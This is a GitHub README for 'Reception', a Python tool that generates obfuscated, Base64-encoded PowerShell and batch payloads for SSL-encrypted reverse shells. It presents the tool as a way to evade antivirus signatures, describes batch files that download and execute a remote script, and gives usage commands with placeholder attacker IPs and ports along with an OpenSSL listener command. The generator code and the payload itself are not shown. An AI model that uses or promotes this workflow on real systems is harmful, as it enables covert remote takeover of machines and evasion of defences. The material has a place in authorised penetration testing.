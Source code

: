 # Reception: Reverse Shell Generator with SSL Encryption

## Overview

**Reverse** is a Python-based tool designed to generate obfuscated PowerShell scripts or batch files for establishing a reverse shell with SSL encryption. This tool can help in penetration testing scenarios where the goal is to bypass security mechanisms and establish a secure connection to a target machine.

## Features

- **Reverse Shell with SSL Encryption:** Generates PowerShell scripts that establish an encrypted reverse shell connection using SSL.
- **Obfuscation:** Each generated PowerShell script uses randomly selected variable names to avoid signature-based detection by security tools.
- **Base64 Encoding:** The PowerShell scripts are encoded in Base64 for additional obfuscation.
- **Batch File Generation:** Create a batch file that downloads and executes the encoded PowerShell script directly from a remote server.
- **Customizable:** Users can specify the IP address, port, and server URL for downloading the PowerShell script.

### Prerequisites

- Python 3.x
- OpenSSL (for certificate generation)

### Installation

Clone the repository:

```bash
git clone https://github.com/ShkudW/Reception.git
cd Reception
```

## Usage

Generate an Encoded PowerShell Script:
```bash
python3 Reverser.py -ip <Your_Listener_Server_IP> -port <Your_Listener_Server_PORT> -type ps1
```

Generate a Batch File and PowerShell Script:
```bash
python3 Reverser.py -ip <Your_Listener_Server_IP> -port <Your_Listener_Server_PORT> -type bat -server http://<Your_Server_ip|URL>/<File-Name>.ps1
```

Open a listener for downloadingg the PS1 file with listener.py:
```bash
python3 listener.py -port <Your_Server_PORT>
```

Open a listener for getting Reverse-Shell with OpenSSL:
```bash
openssl s_server -accept <Your_Listener_Port> -cert reception.pem -key reception.key -quiet
```

## PoC:
Generate a Batch File and PowerShell Script:

![image](https://github.com/user-attachments/assets/cfa697dc-46dc-4590-a05a-0cb0f09b1f8f)


Running the BAT file and creating a secure connection to the listener:

![image](https://github.com/user-attachments/assets/b7e05932-eeee-424f-905a-cb79481d1e2e)

Getting a Secure Reverse Shell:

![image](https://github.com/user-attachments/assets/254b55c2-4b83-4792-8901-95504c9a7fba)

Our Web Server with the PS1 file:

![image](https://github.com/user-attachments/assets/9d798ae3-fb11-4354-9ca1-c3c1343a1587)




